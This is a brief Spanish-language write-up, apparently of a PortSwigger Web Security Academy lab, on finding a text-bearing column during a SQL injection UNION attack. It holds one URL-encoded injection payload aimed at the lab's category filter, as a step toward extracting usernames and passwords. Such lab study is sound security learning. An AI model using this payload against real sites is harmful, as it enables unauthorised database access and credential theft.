 # SQL injection UNION attack, finding a column containing text

La idea es saber que columna es un string para despues saber que columna nos sirbe para seleccionar ya sea un `username` o un `password`.

`https://0a7b006303ec3a3cb4026243009a0030.web-security-academy.net/filter?category=Gifts%27%20UNION%20SELECT%20NULL,%20%27WxcYwJ%27,%20NULL--`